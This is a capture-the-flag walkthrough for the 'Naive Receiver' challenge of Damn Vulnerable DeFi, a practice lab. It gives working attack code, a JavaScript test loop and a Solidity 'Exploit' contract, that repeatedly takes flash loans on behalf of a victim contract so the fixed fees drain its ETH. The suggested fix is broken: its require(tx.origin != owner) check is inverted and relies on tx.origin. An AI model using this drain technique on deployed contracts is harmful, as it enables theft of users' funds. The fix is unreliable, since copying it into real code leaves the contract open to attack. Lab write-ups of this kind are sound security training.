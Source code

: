 ## What is our mission
There’s a pool with 1000 ETH in balance, offering flash loans. It has a fixed fee of 1 ETH.

A user has deployed a contract with 10 ETH in balance. It’s capable of interacting with the pool and receiving flash loans of ETH.

Take all ETH out of the user’s contract. If possible, in a single transaction.

<br/>

## What are the smart contracts 
- **`NaiveReceiverLenderPool.sol`**: smart contract that includes **`flashLoan(...)`** function
- **`FlashLoanReceiver.sol`**: smart contract that includes **`onFlashLoan(...)`** function

<br/>


## Solution 

**1.** **`NaiveReceiverLenderPool.sol`** contract's **`flashLoan(...)`** function
``` solidity
// NaiveReceiverLenderPool.sol

function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }
```

**2.** **`FlashLoanReceiver.sol`** contract's **`onFlashLoan(...)`** function

``` solidity
// FlashLoanReceiver.sol

function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }
```

**3.** The vulnarability cames from,  **`FlashLoanReceiver.sol`** contract.

**`onFlashLoan(...)`** function is triggered from `NaiveReceiverLenderPool.sol` when **`flashLoan(...)`** is called.



⚠️ But **`onFlashLoan(...)`** function doesn't check Who has called **`flashLoan(...)`** function.

This means anybody who call **`flashLoan(...)`** function can pass  **`FlashLoanReceiver.sol`** contract as a `receiver` paremether to **`flashLoan(...)`** function. This will trigger **`onFlashLoan(...)`** function inside **`FlashLoanReceiver.sol`**.

And **`FlashLoanReceiver`** will pay transection fee until be out of money. 😥😥😥

<br/>

Here how you can do it

```js
// test/naive-receiver/naive-receiver.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        const ETH = await pool.ETH();
        
        for (let i = 0; i < 10; i++) 
        {    
            await pool.flashLoan(receiver.address, ETH, ETHER_IN_POOL, "0x");   
        }        
    });
```
As you can see, we have send 10 transection. But if you want to do this challenge **in single transection**, you will need to code smart contract.

<br/><br/>


To solve this, create a new file in side **`contracts/naive-receiver`** called **`NaiveReceiver_SolutionCode.sol`** 

``` solidity
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";


contract NaiveReceiver_SolutionCode
{
    // Constant variables
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant Amount = 1 ether; 

    // Immutable variables
    IERC3156FlashLender private immutable pool;
    IERC3156FlashBorrower private immutable receiver;

    // constructor
    constructor(address _pool, address _receiver) 
    {
        pool = IERC3156FlashLender(_pool);
        receiver = IERC3156FlashBorrower(_receiver);
    }

    
    function Exploit() external
    {
        for (uint i = 0; i < 10; i++) 
        {
            pool.flashLoan(receiver, ETH, Amount, "0x");    
        }
    }
}
```
Your contracts will be compiled, when you run the test.

<br/>

Then you can go to test file and use this code: 

```js
// test/unstoppable/unstoppable.challenge.js

it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
               
        //Location of your compiled contract data. If you are fallowing this solition, copy bellow
        const compiled_data = require("../../artifacts/contracts/naive-receiver/NaiveReceiver_SolutionCode.sol/NaiveReceiver_SolutionCode.json");

        const abi = compiled_data.abi;
        const bytecode = compiled_data.bytecode;
    
        const factory = new ethers.ContractFactory(abi, bytecode, deployer);

        const NaiveReceiver_SolutionCode = await factory.deploy(pool.address, receiver.address)

        await NaiveReceiver_SolutionCode.Exploit();
    });
```



<br/>

## How could this exploit be prevented ?
We want the **sender of the transection** to be equal to **users address**.

first we have to create new variable inside **`FlashLoanReceiver.sol`** contract named **`owner`**

``` solidity
address private owner;

// Modify the constructor
constructor(address _pool, address _owner) {
        pool = _pool;
        owner = _owner;
    }
```
Than inside **`FlashLoanReceiver.sol`** contract's **`onFlashLoan(...)`** function we will require **`tx.origin`** to be equal to **`owner`**.

``` solidity
function onFlashLoan(...) external returns (bytes32) {

        require(tx.origin != owner, "Wrong sender");

        /...
        /...
        /...
    }
```

<br/>


## How to test it
got to ➡️ [**Damn Vulnerable Defi - Chalange #2**](https://www.damnvulnerabledefi.xyz/challenges/2.html). Clone the repository as mentioned and,

put [**basic solution code**](Basic.Solution.md) to his place 

/or

put [**single transection solution code**](Single.Transection.Solution.md) to his place

Then you can just type **`npm run naive-receiver`** 
